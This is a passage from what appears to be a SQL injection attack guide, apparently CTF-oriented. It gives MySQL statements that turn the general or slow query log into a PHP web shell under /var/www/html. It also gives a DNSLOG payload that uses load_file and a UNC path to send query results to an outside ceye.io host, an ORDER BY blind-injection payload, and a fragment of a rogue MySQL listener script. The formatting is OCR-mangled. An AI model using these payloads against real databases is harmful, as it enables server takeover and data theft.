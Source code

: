 ````sql

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)

z = mysql_listener()
daemonize()
asyncore.loop()
```

### Log writing method
Since the value of `secure-file-priv` defaults to `NULL` after the `MySQL 5.5.53` version, this makes it basically unfeasible to read files normally. Here, you can use the method of `MySQL` to generate log files to bypass it.

Some related settings of the `MySQL` log file can be directly carried out through commands, and then the database can execute malicious statements that meet the logging conditions. The usage requirements are:
 - Permissions that can perform log setting operations.
 - Know the absolute path to the target directory.

````sql
Request log:
set global general_log_file = '/var/www/html/shell.php';
set global general_log = on;

Slow query log:
set global slow_query_log_file='/var/www/html/shell.php'
set global slow_query_log = on;
set global log_queries_not_using_indexes = on;
```

## DNSLOG Takeaway Data
Reference: [Dnslog's practical combat in SQL injection] (https://www.anquanke.com/post/id/98096).

Here we recommend `ceye.io`, which integrates the function of `DNSLOG` and does not need to build a `DNS` server by yourself. `Payload`: `load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))`.

`DNSLOG` take-out data application scenario:
 - Three major injections cannot be used.
 - There is file read permission and `secure-file-priv` has no value.
 - Don't know the absolute path to the website/target file/target directory.
 - The target system is `Windows`.

In `Windows`, the path starting with `\\` is defined as the `UNC` path in `Windows`, which is equivalent to the network hard disk. Therefore, if you fill in the domain name, `Windows` will first conduct a `DNS` query. However, there is no such standard for `Linux`, so `DNSLOG` is not applicable in `Linux` environment.

## ORDER BY Comparative Blind
`order by` comparison blind annotation is often used when character interception/comparison restrictions are very strict. For example: `select username,flag,password from users where username='$username;'`.

`Payload`: `select username,flag,password from users where username='admin' union select 1,'a',3 order by 2;`, blind annotation is performed by judging the pre and post order of data returned by the two `select` statements.

## Common functions/symbols
````